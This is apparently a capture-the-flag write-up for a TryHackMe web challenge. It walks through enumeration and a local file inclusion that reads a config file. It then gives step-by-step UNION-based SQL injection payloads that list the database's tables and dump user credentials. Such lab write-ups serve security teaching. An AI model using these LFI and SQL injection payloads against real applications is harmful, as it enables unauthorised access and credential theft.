






#web #lfi #sqli #gobuster #nmap #tryhackme
room url: https://tryhackme.com/room/recruitwebchallenge
# Scenario
**Recruit** has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. While the platform appears functional, management suspects that security may have been overlooked during development. Your task is to assess the application like a real attacker, mapping its structure, abusing exposed functionality, and exploiting vulnerabilities.

# Summary Attack Chain
1. Enumerate the application.
2. Discover `/file.php`.
3. Exploit LFI to retrieve `config.php`.
4. Obtain HR credentials.
5. Log in as HR.
6. Identify SQL injection in the search feature.
7. Enumerate the database.
8. Extract administrator credentials.
9. Log in as administrator.
# 1. Recon and Enumeration
## 1.1 [[Nmap]] Scan:
run `nmap -sV -sC TARGET_IP` to discover open ports

Open ports: ssh at 22, DNS at 53, http at 80

Visiting `http://TARGET_IP` presents a login page. There's a footer including a link to an API page. It reveals the endpoint 
`/file.php?cv=\<URL>`. This endpoint accepts a URL-like parameter and is a potential candidate for testing [[File Inclusion]] and [[SSRF]].

Basic authentication bypass payloads such as `' OR 1=1--` and `admin'--` did not succeed, suggesting the login form was not vulnerable to [[SQLi]].
## 1.2 [[Gobuster]] Directory Enumeration
run `gobuster dir -u http://TARGET_IP -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50 -x php,html,txt,bak,js`

## 1.3 sitemap enumeration
visit http://TARGET_IP/sitemap.xml



Visiting http://TARGET_IP/mail we find mail.log. This includes sensitive info

## 2. Exploiting Local File Inclusion
The `file.php` endpoint allows reading local files using the `file://` wrapper.
visit 
`http://TARGET_IP/file.php?cv=file:///var/www/html/config.php`


# 3. Initial Access
Using the recovered HR credentials, we log in, receiving the first flag.

After logging in as the HR user, the candidate search functionality accepted user input directly and became the next target for testing.
# 4. [[SQLi]] in search field
1. **Test for SQL injection**
```sql
'
```
A single quote (`'`) is commonly used to test whether user input is being inserted directly into an SQL query. If the application returns a syntax error, it suggests the input is not being properly escaped or parameterized.

2. **Find the number of columns**
   - Use `UNION SELECT NULL;--.
   - Increase the number of `NULL` values in the `UNION SELECT` statement until the query executes successfully. The successful payload indicates the correct number of columns.

3. **Find the database name**
```sql
' UNION SELECT null,null,null,database();-- 
```
   **Result:** `recruit_db`

4. **Enumerate table names**
```sql
' UNION SELECT null,null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema='recruit_db';-- 
```
   **Result:** `candidates, users`

5. **Enumerate column names in the `users` table**
```sql
' UNION SELECT null,null,null,group_concat(column_name) FROM information_schema.columns WHERE table_schema='recruit_db' AND table_name='users';-- 
```
   **Result:** `id, password, username`

6. **Extract credentials**
```sql
' UNION SELECT null,null,null,group_concat(concat(username, ':', password)) FROM users;-- 
```
   **Result:** admin's credentials
   

# Privilege Escalation
Using the extracted administrator credentials, log in to the admin account to obtain the second flag.


# Lessons Learned

- Always enumerate hidden endpoints (Gobuster + sitemap.xml).
- Sensitive files such as logs and configuration can leak credentials.
- File retrieval functionality should be tested for LFI/SSRF.
- Authentication and authorization are different attack surfaces.
- A failed SQL injection in one feature(Log in form in this case) does not rule out SQL injection elsewhere (search bar) in the application.